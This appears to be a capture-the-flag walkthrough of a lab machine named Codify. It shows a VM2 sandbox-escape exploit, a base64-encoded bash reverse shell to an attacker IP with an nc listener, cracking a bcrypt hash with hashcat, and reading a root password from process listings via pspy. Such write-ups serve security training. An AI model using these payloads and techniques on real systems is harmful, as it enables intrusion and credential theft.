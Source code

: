 Initial enumeration:

http://codify.htb/about -> Explains that it uses VM2 in a sandbox
http://codify.htb/editor -> Allows you to submit nodejs code to "test"

VM2 has an exploit: https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

in there, I used the following code to a responsive shell
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -latr").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked

in the .execSync("") function, I setup a base64 encode to bypass URL security

bash -i >& /dev/tcp/ip address/4444 0>&1 -> base64 encoded -> YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41OS80NDQ0IDA+JjE=
Then ship the payload using .execSync("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41OS80NDQ0IDA+JjE= | base64 -d | bash")

with a listener "nc -lvnp 4444"
kali:~$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.59] from (UNKNOWN) [10.10.11.239] 52798
bash: cannot set terminal process group (1270): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ 

in /var/www/html/contact there's a sqlite3 .db file.
sqlite> .tables 
.tables
tickets  users  
sqlite> .users
.users
sqlite> SELECT * from users;
SELECT * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

Then using a hash identifier, it's bcrypt.
Cracked the hash via hashcat -m 3200 <rock you word list>

$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
                                                                                                                                                                                                                                            
OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]                                                                                          
==================================================================================================================================================                                                                                          
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 6820/13704 MB (2048 MB allocatable), 8MCU                                                                                                                                
                                                                                                                                                                                                                                            
Minimum password length supported by kernel: 0                                                                                                                                                                                              
Maximum password length supported by kernel: 72                                                                                                                                                                                             
                                                                                                                                                                                                                                            
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates                                                                                                                                                                
Rules: 1                                                                                                                                                                                                                                    
                                                                                                                                                                                                                                            
Optimizers applied:                                                                                                                                                                                                                         
* Zero-Byte                                                                                                                                                                                                                                 
* Single-Hash                                                                                                                                                                                                                               
* Single-Salt                                                                                                                                                                                                                               
                                                                                                                                                                                                                                            
Watchdog: Temperature abort trigger set to 90c                                                                                                                                                                                              
                                                                                                                                                                                                                                            
Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Fri May  3 19:28:38 2024 (1 min, 6 secs)
Time.Estimated...: Fri May  3 19:29:44 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       21 H/s (11.97ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344385 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1344/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: teacher -> tagged
Hardware.Mon.#1..: Temp: 48c Util: 92%

Started: Fri May  3 19:28:33 2024
Stopped: Fri May  3 19:29:46 2024

Password found: spongebob1
This allows me to SSH into the box as joshua
ssh joshua@10.10.11.239

Priv Escalation Enumeration

sudo -l shows that /opt/scripts/mysql-backup.sh is being run as root privilege

Looking at the script, it is susceptible to SQL injection for the root password.
The password is then sent off the mysqldump which is located in /root/.creds file.
This means that, if we can monitor the PID AS mysql-backup.sh is being run, we should be able to see the password be sent off in the PID since it's catting from the .creds file

Using pspy, we execute this to snoop the PID then run the backupsql.sh

2024/05/03 23:49:22 CMD: UID=0    PID=21396  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:22 CMD: UID=1000 PID=21395  | sudo /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21398  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21403  | /usr/bin/grep -Ev (Database|information_schema|performance_schema) 
2024/05/03 23:49:24 CMD: UID=0    PID=21402  | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 
2024/05/03 23:49:24 CMD: UID=0    PID=21401  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21406  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21405  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
2024/05/03 23:49:24 CMD: UID=0    PID=21409  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/05/03 23:49:24 CMD: UID=0    PID=21408  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys 
2024/05/03 23:49:46 CMD: UID=1000 PID=21415  | 
2024/05/03 23:49:46 CMD: UID=0    PID=21416  | 
2024/05/03 23:49:51 CMD: UID=0    PID=21417  | 

Then using kljh12k3jhaskjh12kjh3 as the password

joshua@codify:~$ su -
Password: 
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt
a24ce1966e756ce7fe0758e20118f9ce

